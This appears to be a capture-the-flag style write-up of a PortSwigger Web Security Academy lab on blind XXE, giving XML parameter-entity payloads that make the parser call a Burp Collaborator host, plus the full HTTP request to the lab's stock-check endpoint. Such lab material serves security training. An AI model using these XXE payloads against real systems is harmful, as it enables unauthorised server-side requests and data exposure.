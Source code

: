 # Blind XXE with out-of-band interaction via XML parameter entities
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.



<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>

Final XML request:
POST /product/stock HTTP/1.1
Host: ac381f141ffb869ac0445a5e00be001f.web-security-academy.net
Cookie: session=xyz
Content-Length: 227
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Content-Type: application/xml
Accept: */*
Origin: https://ac381f141ffb869ac0445a5e00be001f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac381f141ffb869ac0445a5e00be001f.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
<pre><code>
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://2ruibhhghox7cp0i7q0y71p9e0ks8h.burpcollaborator.net"> %xxe; ]>
  <stockCheck>
  <productId>2</productId><storeId>2</storeId></stockCheck>
</code></pre>
